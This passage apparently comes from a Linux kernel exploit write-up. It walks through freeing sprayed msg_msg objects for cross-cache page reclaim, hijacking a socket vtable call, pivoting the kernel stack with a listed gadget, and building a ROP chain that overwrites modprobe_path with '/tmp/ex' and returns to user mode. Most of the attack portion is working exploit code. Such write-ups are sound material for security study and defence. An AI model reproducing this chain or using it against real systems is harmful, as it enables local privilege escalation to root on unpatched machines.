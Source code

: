 ```c
  for (int i = 0; i < num_alloc; i++) {
    if (!(i % OBJ_PER_SLAB))
      continue;
    mrecv = recv_msg(msgq[i], MAX_K2K_SZ, 0, 0);
    free(mrecv);
  }
}
```

This release of course must happen AFTER our cross cache page has been kidnapped by the pcp list and before any attempts to reclaim the page. I had to spray a little more `msg_msg` than usual to get the page back, but it worked a charm.

## ROP check?

Theres a small problem here - since we are hijacking a vtable, we obviously dont have an immediate vehicle for executing more or other gadgets beyond that point. We will need to stack pivot. Luckily, the kernel is... Fairly massive so we have no shortage of gadgets. But do we have any that will work for our specific needs? If you step through the code responsible for invoking `release_cb` (see `release_sock` function) in gdb before the call, you'll notice that at the time of calling, `rax` points at `skc_prot`, which is to say it points at the `close` member, and is entirelly controlled. My first thought was how do we pivot the kernel stack to this destination? Very easily, in fact. `ropper` blessed me with this beauty:

```asm
   0xffffffff810f95cc <x86_gsbase_write_cpu_inactive+76>:       mov    rsp,rax
   0xffffffff810f95cf <x86_gsbase_write_cpu_inactive+79>:       pop    rbx
   0xffffffff810f95d0 <x86_gsbase_write_cpu_inactive+80>:       ret
```

At this point more rop is extremely easy, so what do we actually want to do. Im a simple man with simple tastes -- `modprobe_path` to be exact. Although the traditional way to invoke modprobe using dummy files was callously murdered, [there are other ways](https://theori.io/blog/reviving-the-modprobe-path-technique-overcoming-search-binary-handler-patch), Thanks Theorio. With this in mind all we need to do is construct a write primitive capable of overwriting it. Heres what my chain looks like in the exploit:

```c
    uint32_t write = (0x188 - 0x30) / 8;
    uint64_t *mptr = (uint64_t *)(&msg->mtext[0]);
    mptr[write++] = pop_rsi_ret;
    mptr[write++] = modprobe;
    mptr[write++] = pop_rdx_ret;
    // /tmp/ex\x00
    mptr[write++] = 0x0078652f706d742f;
    mptr[write++] = mov_qword_ptr_rsi_rdx_pop_rbx_ret;
    // Skip raw_prot
    write++;
    mptr[write++] = swapgs_return_to_usermode;
    // Now the arg arrangements for iretq
    mptr[write++] = 0x7777777777777777;
    mptr[write++] = 0x7777777777777777;
    mptr[write++] = user_pc;
    mptr[write++] = user_cs;
    mptr[write++] = user_rflags;
    mptr[write++] = user_sp;
    mptr[write++] = user_ss;
    // Random padding
    mptr[write++] = 0x7777777777777777;

```
